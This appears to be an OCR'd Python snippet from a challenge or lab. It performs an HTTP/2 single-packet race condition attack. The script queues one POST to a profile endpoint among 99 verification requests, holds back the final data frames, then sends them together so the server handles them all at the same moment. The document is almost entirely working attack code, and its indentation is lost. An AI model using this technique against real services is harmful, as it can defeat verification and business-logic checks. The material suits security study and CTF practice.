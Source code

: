 ```python
h2_conn.setup_connection()

try_num = 100

stream_ids_list = h2_conn.generate_stream_ids(number_of_streams=try_num)

all_headers_frames = []  # all headers frame + data frames which have not the last byte
all_data_frames = []  # all data frames which contain the last byte


for i in range(0, try_num):
last_data_frame_with_last_byte=''
if i == try_num/2:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(  # noqa: E501
method='POST',
headers_string=headersObjetivo,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=bodyObjetivo,
path='/challenge/api/profile'
)
else:
header_frames_without_last_byte, last_data_frame_with_last_byte = h2_conn.create_single_packet_http2_post_request_frames(
method='GET',
headers_string=headersVerification,
scheme='https',
stream_id=stream_ids_list[i],
authority=host,
body=".",
path='/challenge/api/sendVerification'
)

all_headers_frames.append(header_frames_without_last_byte)
all_data_frames.append(last_data_frame_with_last_byte)


# concatenate all headers bytes
temp_headers_bytes = b''
for h in all_headers_frames:
temp_headers_bytes += bytes(h)

# concatenate all data frames which have last byte
temp_data_bytes = b''
for d in all_data_frames:
temp_data_bytes += bytes(d)

h2_conn.send_bytes(temp_headers_bytes)




# wait some time
sleep(0.1)

# send ping frame to warm up connection
h2_conn.send_ping_frame()

# send remaining data frames
h2_conn.send_bytes(temp_data_bytes)

```